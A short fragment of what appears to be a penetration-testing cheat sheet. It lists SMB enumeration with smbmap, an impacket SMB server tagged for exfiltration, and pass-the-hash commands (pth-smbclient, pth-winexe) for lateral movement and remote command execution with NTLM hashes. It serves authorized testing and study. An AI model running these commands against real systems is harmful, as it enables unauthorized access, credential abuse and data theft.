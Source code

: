 ## guest login
- `smbmap -u whateverusername -H target-ip`

## anonymous login
- `smbmap -H target-ip`

---

# smbserver.py
- service: smb
- tactics: exfiltration
- suites: impacket

## fake smb server for uploading and downloading files
- `python3 /opt/impacket/examples/smbserver.py -smb2support files $(pwd)`

---

# pth-smbclient
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit

## connect to target-share and auth via ntlm-hash
- `pth-smbclient --user=username --pw-nt-hash -m smb3 \\\\target-ip\\target-share ntlm-hash`

---

# pth-winexe
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit

# run command on target-ip and auth via ntlm-hash
- `pth-winexe -U ntlm-hash //target-ip cmd`

---

# vinagre
- service: vnc
- tactics: lateral_movement
